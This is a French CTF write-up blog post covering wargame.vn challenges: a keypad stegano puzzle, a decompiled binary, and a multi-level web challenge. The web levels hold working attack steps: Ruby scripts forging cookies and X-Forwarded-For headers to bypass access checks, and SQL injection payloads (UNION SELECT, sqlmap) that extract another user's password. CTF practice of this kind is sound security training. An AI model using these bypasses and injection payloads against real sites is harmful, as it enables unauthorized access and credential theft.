 
= CTF wargamevn writeups
:hp-tags: security
:published_at: 2013-08-18

== Stegano 50

 11216311219611#9632969363
 Flag được viết bằng chữ in thường, không có dấu cách (space)

Google translate nous permet de comprendre que le flag attendu est en minuscule et qu'il n'y a pas d'espace. Le texte fait penser à une technique qui consiste à coder le message en utilisant les touches d'un téléphone portablefootnote:[http://www.dbcovers.com/image-of-half-nelson-2006-half_nelson_2006_1[SMS Text Message Decoder]]. 

Pas de chance, cela ne semble pas être la méthode utilisée dans ce cas là, tant pis on va faire un petit tour sur https://www.google.com/search?q=11216311219611%239632969363[google]. Le premier résultat retourné nous amène sur une http://www.youtube.com/watch?v=WKrfEFf6C2I[vidéo] qui nous explique comment faire de la musique avec son portable.

En fouillant dans les commentaires on tombe sur notre message "codé":

 To play happy birthday on an iphone press these buttons: 11216311219611#9632969363

Et effectivement le flag est bien: *happybirthday*

== Bin 50

Bon alors pour celui là j'y suis allé à l'intuition :P

On se retrouve avec un fichier binaire, comme le reverse et l'ASM c'est pas encore mon fort je sors IDA et je génère le pseudo-code C de la routine principale.

[source, c]
----
int __cdecl main(signed int a1, int a2)
{
  int v3; // [sp+14h] [bp-Ch]@3
  signed int i; // [sp+18h] [bp-8h]@17
  int v5; // [sp+1Ch] [bp-4h]@1

  v5 = *(_DWORD *)(a2 + 4);
  if ( a1 > 1 ){
    v3 = *(_BYTE *)v5;
    if ( strcmp((const char *)&v3, L"w@R6me") )
      return 0;
    ++v5;
    v3 = *(_BYTE *)v5;
    if ( strcmp((const char *)&v3, L"") )
      return 0;
    ++v5;
    v3 = *(_BYTE *)v5;
    if ( strcmp((const char *)&v3, L"@R6me") )
      return 0;
    ++v5;
    v3 = *(_BYTE *)v5;
    if ( strcmp((const char *)&v3, L"") )
      return 0;
    ++v5;
    v3 = *(_BYTE *)v5;
    if ( strcmp((const char *)&v3, L"") )
      return 0;
    ++v5;
    v3 = *(_BYTE *)v5;
    if ( strcmp((const char *)&v3, L"R6me") )
      return 0;
    ++v5;
    v3 = *(_BYTE *)v5;
    if ( strcmp((const char *)&v3, L"") )
      return 0;
    ++v5;
    printf("HERE IS YOUR FLAG: ");
    for ( i = 0; i <= 27; ++i )
      putchar((i + 1) ^ flag[i]);
  }
  else{
    printf("%s <keystring>\n", *(_DWORD *)a2);
  }
  return 0;
}
----

Alors on voit qu'un certain nombre de tests sont fait sur la chaine passée en argument, si on regarde le premier test on voit qu'une comparaison est faite avec la chaine `w@R6me` ce qui ressemble fortement à la chaine `wargame` version "l33t". 

On test pour voir:

 techbrunch@blog:~/541490 (master) $ ./go w@R6@me                                                                                                                                                  
 HERE IS YOUR FLAG: teaser_simplecrackshouldwork

et paf le Flag :)

== Web 50

[source, php]
----
<?php
error_reporting(0);
$flag = file('../../flag.txt');
if ($_GET['x']==="\x01\x03\x03\x07")
    echo $flag[0];
?>
----

Solution : 

 http://challenges.wargame.vn:1337/web50_4e4d6c332b6fe62a63afe56171fd3725/?x=%01%03%03%07

Flag : *teaser_web50_is_easy:)*

== Web 100

Le web 100 était constitué d'une série de 7 niveaux.

=== Level 1

Premier niveau on arrive sur la page et un message s'affiche:

 It works

On jette un coup d'oeil au code source:

[source, html]
----
<html><h1>It works</h1></html>
[...]
<!-- next: level2.php -->
----

et on trouve le lien pour le niveau 2.

=== Level 2

Cette fois ci le message est différent:

 You're not logged in!

Cette fois ci rien d'intéressant dans le code de la page. On va s'intéresser aux en-tête et plus particulièrement à la réponse envoyé par le serveur:

    Connection:Keep-Alive
    Content-Encoding:gzip
    Content-Length:41
    Content-Type:text/html
    Date:Fri, 26 Jul 2013 15:48:33 GMT
    Keep-Alive:timeout=5, max=100
    Server:Apache/2.2.22 (Ubuntu)
    Set-Cookie:login=0; expires=Thu, 01-Jan-1970 00:00:01 GMT
    Vary:Accept-Encoding
    X-Powered-By:PHP/5.4.6-1ubuntu1.3

Apparement il nous faut un cookie login que l'on va setter à 1.

[source, ruby]
----
require 'uri'
require 'net/http'

uri = URI("http://challenges.wargame.vn:1337");
http = Net::HTTP.new(uri.host, uri.port)
headers = {
    'Cookie' => 'login=1'
}

puts http.get('http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/level2.php', headers).body
----

On exécute le srcipt  et direction le level 3:

    techbrunch@yop:~/562394 $ ruby level2.rb
    <h1>Ops!</h1><!-- l3v3l_3.php -->
    techbrunch@yop:~/562394 $

=== Level3

Même message qu'au niveau 2:

 You're not logged in!


    Set-Cookie:login=96.29.172.198; expires=Thu, 01-Jan-1970 00:00:01 GMT

Cette fois ci le cookie doit contenir une adresse ip, et un commentaire dans le code de la page nous laisse supposer qu'il que que l'adresse ip soit `127.0.0.1`.

[source, ruby]
----
require 'uri'
require 'net/http'

uri = URI("http://challenges.wargame.vn:1337");
http = Net::HTTP.new(uri.host, uri.port)
headers = {
    'Cookie' => 'login=127.0.0.1'
}

puts http.get('http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/l3v3l_3.php', headers).body
----

    techbrunch@yop:~/562394 $ ruby level3.rb
    <!-- 127.0.0.1 -->
    <h1>Ops!</h1><!-- l3v3l___4.php -->

=== Level 4

Pour le level 4 on se retrouve avec un commentaire qui laisse penser qu'un header http spécifique doit être présent pour passer au niveau suivant. 

[source, php]
----
<!-- if($_SERVER['HTTP_1337']=='1337') -->
Array
(
    [HTTP_HOST] => challenges.wargame.vn:1337
    [...] => ...
    [REQUEST_TIME] => 1374854460
)
----

On modifie notre script précédent et c'est reparti:

[source, ruby]
----
require 'uri'
require 'net/http'

uri = URI("http://challenges.wargame.vn:1337");
http = Net::HTTP.new(uri.host, uri.port)
headers = {
    '1337' => '1337'
}

puts http.get('http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/l3v3l___4.php', headers).body
----


    techbrunch@yop:~/562394 $ ruby level4.rb
    <!-- if($_SERVER['HTTP_1337']=='1337') -->
    Array
    (
        [HTTP_1337] => 1337
        [...] => ...
        [REQUEST_TIME] => 1374854625
    )
    <h1>Ops!</h1><!-- level_$5.php -->
    techbrunch@yop:~/562394 $

=== Level5

Cette fois ci il semblerait qu'un filtrage soit effectué en fonction de l'adresse ip:

[source, html]
<!-- if($ip="127.0.0.1") fet lag(); -->
Array
(
    [HTTP_HOST] => challenges.wargame.vn:1337
    [...] => ...
    [REQUEST_TIME] => 1374854684
)
<br /><br />Your IP: <strong>96.29.172.198</strong><br />You're not an admin! Get out X-(
----

Le script semble reposer sur les header http pour récupéré l'adresse ip. On va donc ajouté un header `X_FORWARDED_FOR` pour faire croire au script que notre adresse ip est `127.0.0.1`.

[source, ruby]
----
require 'uri'
require 'net/http'
 
uri = URI("http://challenges.wargame.vn:1337");
http = Net::HTTP.new(uri.host, uri.port)
headers = {
    'X_FORWARDED_FOR' => '127.0.0.1'
}
 
puts http.get('http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/level_$5.php', headers).body
----

    techbrunch@yop:~/562394 $ ruby level5.rb
    <!-- if($ip="127.0.0.1") flag(); -->
    Array
    (
        [HTTP_X_FORWARDED_FOR] => 127.0.0.1
        [...] => ...
        [REQUEST_TIME] => 1374854949
    )
    <br /><br />Your IP: <strong>127.0.0.1</strong><br /><h1>Ops!</h1><!-- lev3l_$6_.php -->
    techbrunch@yop:~/562394 $

=== Level 6

Cette fois-ci c'est un message de bienvenue qui s'affiche:

 Hello manhluat!

L'url est plus intéressante que les fois précédante et ça sent l'injection SQL à plein nez:

    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=1
    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=-1
    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=-1 or 1=2--
    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=-1 or 1=1--

Le message de bienvenue ne s'affiche qu'avec la première et la dernière URL ce qui confirme que nous somme en présence d'une faille de type injection SQL.

On va cherche le nombre de colonne de la requête:

    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=1 order by 3-- OK
    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=1 order by 4-- NOK
    
Le select se fait sur 3 colonnes.

    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=-1 union select 1,2,3--
    
 Hello 2!

Le nom d'utilisateur est la deuxième colonne sélectionnée. 

Pour le fun un petit coup de SQLmap :

    c:\Python27>python.exe "c:\Program Files\sqlmap\sqlmap.py" -u http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=1 --technique=U --union-cols=3 -T users --common-columns"

    [19:32:58] [INFO] retrieved: id
    [19:32:59] [INFO] retrieved: username
    [19:33:01] [INFO] retrieved: rowid
    [19:33:07] [INFO] tried 179/2447 items (7%)
    [19:33:07] [INFO] waiting for threads to finish (Ctrl+C was pressed)
    [19:33:08] [WARNING] user aborted during column existence check. sqlmap will dis
    play partial output

    Database: All
    Table: users
    [3 columns]
    +----------+---------+
    | Column   | Type    |
    +----------+---------+
    | id       | numeric |
    | rowid    | numeric |
    | username | numeric |
    +----------+---------+
    
On sait désormais le nom des trois colonnes utilisées.

    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=1-1 union select 1,(select count(*) from users),3--

 Hello 2!

Il y a deux utilisateurs dans la table users, le flag est donc surement le mot de passe de l'autre utilisateur.

    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=1-1 union select 1,(select password from users where id<>1),3--

 Hello $level7_.php!

Bingo !

Bon je me suis arrêté là par manque de temps et de motivation mais c'était fun quand même.
